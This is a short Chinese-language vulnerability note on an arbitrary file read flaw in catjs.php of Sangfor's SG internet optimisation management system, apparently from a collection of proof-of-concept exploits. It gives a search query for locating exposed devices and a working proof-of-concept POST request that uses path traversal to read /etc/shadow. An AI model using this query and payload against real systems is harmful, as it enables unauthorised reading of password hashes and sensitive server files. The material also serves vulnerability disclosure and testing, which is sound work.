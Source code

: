 # 深信服 SG上网优化管理系统 catjs.php 任意文件读取漏洞

## 漏洞描述

深信服 SG上网优化管理系统 catjs.php 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感文件

## 漏洞影响

深信服 SG上网优化管理系统

## 网络测绘

```
title=="SANGFOR上网优化管理"
```

## 漏洞复现

登陆页面

![image-20230828111216211](images/image-20230828111216211.png)

验证POC

```
POST /php/catjs.php

["../../../../../../etc/shadow"]
```

![image-20230828111228485](images/image-20230828111228485.png)